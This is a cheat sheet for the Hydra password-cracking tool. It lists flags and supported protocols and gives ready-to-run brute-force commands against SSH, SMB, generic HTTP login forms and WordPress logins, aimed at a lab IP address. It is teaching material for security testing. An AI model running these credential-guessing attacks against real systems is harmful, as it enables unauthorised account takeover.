```yaml
---
date: 2024-12-15
title: "Hydra"
tags: ["cheat sheet", "bruteforce"]
---
```


**Hydra** is a password-cracking tool designed for brute-forcing authentication protocols. It supports a wide range of protocols and is highly configurable for various use cases.

## Basic Syntax

```bash
hydra [options] <IP> <protocol>
```

## Common Flags

- **`-h`**: Display the help menu.
- **`-l <username>`**: Specify a single username/login.
- **`-L <wordlist>`**: Use a wordlist for usernames/logins.
- **`-p <password>`**: Specify a single password.
- **`-P <wordlist>`**: Use a wordlist for passwords.
- **`-s <PORT>`**: Specify the target port.
- **`-f`**: Stop brute-forcing after finding valid credentials.
- **`-R`**: Restore a previous session.
- **`-t <number>`**: Set the number of threads to use.
- **`-V`**: Enable verbose mode.

## Supported Protocols

Hydra supports numerous protocols, including:

- **SSH**
- **FTP**
- **POP3**
- **HTTP-FORM-GET**
- **HTTP-FORM-POST**
- **HTTP-HEAD**
- **HTTP-POST**
- **HTTP-GET**
- **IMAP**
- **SMB**
- **SMTP**
- **MySQL**

For the full list, refer to Hydra's help menu (`hydra -h`).

## Examples

### SSH Brute-Force Attack
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh
```

### SSH with Multiple Usernames
```bash
hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh
```

### SMB Brute-Force Attack
```bash
hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Brute-Forcing HTTP POST Forms

Hydra can handle custom HTTP POST forms:

```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form \
"/login:username=admin&password=^PASS^:F=Your password is incorrect"
```

### Wordpress Login Brute-Force

Hydra can target WordPress login forms with custom parameters:

```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post \
"/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

## Tips and Tricks

- **Session Management**: Use `-R` to restore interrupted sessions without starting over.
- **Efficiency**: Adjust the number of threads with `-t` to balance speed and server load.
- **Verbose Mode**: Use `-V` to see each login attempt in real-time, useful for troubleshooting.
- **Custom Form Parameters**: Understand the target login form structure to craft precise Hydra commands.


--
